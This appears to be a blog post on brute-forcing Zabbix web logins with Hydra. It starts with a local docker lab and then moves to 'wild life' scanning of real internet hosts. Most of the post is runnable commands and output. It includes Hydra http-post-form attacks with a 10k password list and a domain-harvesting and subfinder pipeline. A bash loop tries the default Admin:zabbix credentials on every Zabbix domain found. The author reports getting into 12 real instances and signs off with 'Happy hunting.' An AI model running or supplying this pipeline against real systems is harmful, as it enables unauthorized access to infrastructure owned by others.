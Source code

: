 ```yaml
---
title: "Taking over Zabbix with Hydra"
description: "The post describes a procedure of breaking into zabbix machines with Hydra. The technique uses brute force and not very effective, however can be utilized for weakly maintianed infrastrcuture."
date: 2024-05-22T01:58:40.873Z
draft: false
tags: [zabbix, hydra, nuclei, bruteforce]
categories: [computers]
thumbnail: "/article/taking-over-zabbix-with-hydra/thumb.webp"
---
```


## Lab experiment

As usual, we start with an experiment in highly constrolled conditions - in our virtual lab. 

Let's first install hydra:

```bash
sudo apt install hydra -y
```

Then let's run [zabbix appliance](https://hub.docker.com/r/zabbix/zabbix-appliance/) to have all zabbix components run in a single command:

```bash
docker run --name some-zabbix-appliance -p 80:80 -p 10051:10051 -d zabbix/zabbix-appliance:tag
```

After docker ran, we can see exposed ports:

```bash
docker ps
CONTAINER ID   IMAGE                     COMMAND                  CREATED             STATUS             PORTS                                                                                       NAMES
3b0230770aa0   zabbix/zabbix-appliance   "/sbin/tini -- /usr/…"   About an hour ago   Up About an hour   0.0.0.0:80->80/tcp, :::80->80/tcp, 0.0.0.0:10051->10051/tcp, :::10051->10051/tcp, 443/tcp   some-zabbix-appliance
```

and we get into the UI by going with browser to `http://localhost`:

![ui](/article/taking-over-zabbix-with-hydra/ui.png)

Let's login with default credentials, `Admin:zabbix`:

![ui](/article/taking-over-zabbix-with-hydra/insidezabbix.png)

Now, time to test `hudra`:

```bash
hydra -l Admin -p zabbix 127.0.0.1 http-post-form "/index.php:name=^USER^&password=^PASS^&autologin=1&enter=Sign+in:Login name or password is incorrect" -V
```

with the following results:

```bash
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-05-23 13:21:43
[DATA] max 1 task per 1 server, overall 1 task, 1 login try (l:1/p:1), ~1 try per task
[DATA] attacking http-post-form://127.0.0.1:80/index.php:name=^USER^&password=^PASS^&autologin=1&enter=Sign+in:Login name or password is incorrect
[ATTEMPT] target 127.0.0.1 - login "Admin" - pass "zabbix" - 1 of 1 [child 0] (0/0)
[80][http-post-form] host: 127.0.0.1   login: Admin   password: zabbix
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-05-23 13:21:44
```

What if used invalid password, e.g. `zabbix1`?

```bash
hydra -l Admin -p zabbix1 127.0.0.1 http-post-form "/index.php:name=^USER^&password=^PASS^&autologin=1&enter=Sign+in:Login name or password is incorrect" -V
```

prints

```bash
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-05-23 13:23:30
[DATA] max 1 task per 1 server, overall 1 task, 1 login try (l:1/p:1), ~1 try per task
[DATA] attacking http-post-form://127.0.0.1:80/index.php:name=^USER^&password=^PASS^&autologin=1&enter=Sign+in:Login name or password is incorrect
[ATTEMPT] target 127.0.0.1 - login "Admin" - pass "zabbix1" - 1 of 1 [child 0] (0/0)
1 of 1 target completed, 0 valid passwords found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-05-23 13:23:30
```


We'll use [SecLists](https://github.com/danielmiessler/SecLists.git) for password lists:

```bash
git clone https://github.com/danielmiessler/SecLists.git
```

Let's run `hydra` with `SecLists/Passwords/Common-Credentials/10k-most-common.txt`:

```bash
hydra -l Admin -P ../SecLists/Passwords/Common-Credentials/10k-most-common.txt 127.0.0.1 http-post-form "/index.php:name=^USER^&password=^PASS^&autologin=1&enter=Sign+in:Login name or password is incorrect" -V
```

Wow, we got an interesting result:

```bash
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-05-23 13:36:40
[DATA] max 16 tasks per 1 server, overall 16 tasks, 10000 login tries (l:1/p:10000), ~625 tries per task
[DATA] attacking http-post-form://127.0.0.1:80/index.php:name=^USER^&password=^PASS^&autologin=1&enter=Sign+in:Login name or password is incorrect
[ATTEMPT] target 127.0.0.1 - login "Admin" - pass "password" - 1 of 10000 [child 0] (0/0)
[ATTEMPT] target 127.0.0.1 - login "Admin" - pass "123456" - 2 of 10000 [child 1] (0/0)
[ATTEMPT] target 127.0.0.1 - login "Admin" - pass "12345678" - 3 of 10000 [child 2] (0/0)
[ATTEMPT] target 127.0.0.1 - login "Admin" - pass "1234" - 4 of 10000 [child 3] (0/0)
[ATTEMPT] target 127.0.0.1 - login "Admin" - pass "qwerty" - 5 of 10000 [child 4] (0/0)
[ATTEMPT] target 127.0.0.1 - login "Admin" - pass "12345" - 6 of 10000 [child 5] (0/0)
[ATTEMPT] target 127.0.0.1 - login "Admin" - pass "dragon" - 7 of 10000 [child 6] (0/0)
[ATTEMPT] target 127.0.0.1 - login "Admin" - pass "pussy" - 8 of 10000 [child 7] (0/0)
[ATTEMPT] target 127.0.0.1 - login "Admin" - pass "baseball" - 9 of 10000 [child 8] (0/0)
[ATTEMPT] target 127.0.0.1 - login "Admin" - pass "football" - 10 of 10000 [child 9] (0/0)
[ATTEMPT] target 127.0.0.1 - login "Admin" - pass "letmein" - 11 of 10000 [child 10] (0/0)
[ATTEMPT] target 127.0.0.1 - login "Admin" - pass "monkey" - 12 of 10000 [child 11] (0/0)
[ATTEMPT] target 127.0.0.1 - login "Admin" - pass "696969" - 13 of 10000 [child 12] (0/0)
[ATTEMPT] target 127.0.0.1 - login "Admin" - pass "abc123" - 14 of 10000 [child 13] (0/0)
[ATTEMPT] target 127.0.0.1 - login "Admin" - pass "mustang" - 15 of 10000 [child 14] (0/0)
[ATTEMPT] target 127.0.0.1 - login "Admin" - pass "michael" - 16 of 10000 [child 15] (0/0)
[ATTEMPT] target 127.0.0.1 - login "Admin" - pass "shadow" - 17 of 10000 [child 4] (0/0)
[ATTEMPT] target 127.0.0.1 - login "Admin" - pass "master" - 18 of 10000 [child 7] (0/0)
[ATTEMPT] target 127.0.0.1 - login "Admin" - pass "jennifer" - 19 of 10000 [child 6] (0/0)
[80][http-post-form] host: 127.0.0.1   login: Admin   password: 123456
[80][http-post-form] host: 127.0.0.1   login: Admin   password: michael
[80][http-post-form] host: 127.0.0.1   login: Admin   password: mustang
[80][http-post-form] host: 127.0.0.1   login: Admin   password: 12345678
[80][http-post-form] host: 127.0.0.1   login: Admin   password: abc123
[80][http-post-form] host: 127.0.0.1   login: Admin   password: 12345
[80][http-post-form] host: 127.0.0.1   login: Admin   password: baseball
[80][http-post-form] host: 127.0.0.1   login: Admin   password: password
[80][http-post-form] host: 127.0.0.1   login: Admin   password: monkey
[80][http-post-form] host: 127.0.0.1   login: Admin   password: 1234
[80][http-post-form] host: 127.0.0.1   login: Admin   password: letmein
[80][http-post-form] host: 127.0.0.1   login: Admin   password: football
[80][http-post-form] host: 127.0.0.1   login: Admin   password: 696969
[80][http-post-form] host: 127.0.0.1   login: Admin   password: shadow
[80][http-post-form] host: 127.0.0.1   login: Admin   password: master
[80][http-post-form] host: 127.0.0.1   login: Admin   password: jennifer
1 of 1 target successfully completed, 16 valid passwords found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-05-23 13:36:41
```

We got many matching passwords from Hydra, e.g. `123456`, `michael`, etc. Probably Zabbix hide something regarding their default password. Let's go to the UI and check `Admin:123456`:

![Account is blocked](/article/taking-over-zabbix-with-hydra/blocked.png)

Ok, now it's clear. Zabbix blocked `Admin` after 19 insuccessful attempts and `hydra` did not uderstand its answer correctly because it did not find in the response `Login name or password is incorrect`: all `Account is blocked for 30 seconds` were interpreted as success.

Well, we have discovered Zabbix has an anti-bruteforce policy implemented and that makes our life hard. Therefore, we turn to a very simple and basic case of scanning of wild life zabbixes: we'll try only default zabbix creds in hope the admin forgot to change them. We should also remember that `hydra` will report false positives for any errors which differ from `Login name or password is incorrect`.

## Wild life

We want to identify zabbix services by domain names. Let's first get domains from [Kaeferjaegger.gay](https://kaeferjaeger.gay/?dir=sni-ip-ranges) and grep domains out:

```bash
grep -E -o '[a-zA-Z0-9_-]+(\.[a-zA-Z0-9_-]+)+(\.[a-zA-Z]{2,})' ~/sni_ip_ranges/phatboi.txt > domains.txt
```

Then with [subfinder](https://github.com/projectdiscovery/subfinder) let's find the subdomains:

```bash
subfinder -dL domains.txt -silent -o subdomains.txt
```

and unite both domains and subdomains:

```bash
cat domains.txt subdomains.txt | sort | uniq > alldomains.txt
```

Let's find zabbix-related ones:

```bash
grep 'zabbix' alldomains.txt > domains.zabbix
```

Now, create a small hydra runner:

```bash
#!/bin/bash
# test.sh
domain=$1
hydra -l Admin -p zabbix $domain http-post-form "/index.php:name=^USER^&password=^PASS^&autologin=1&enter=Sign+in:Login name or password is incorrect" -V
```

And finally run the test:

```bash
chmod +x test.sh
while read -r line
do
	test.sh $line
done  < domains.zabbix
```

In our test we were able to find 12 zabbix instances with default credentials. Not bad at all!

Happy hunting.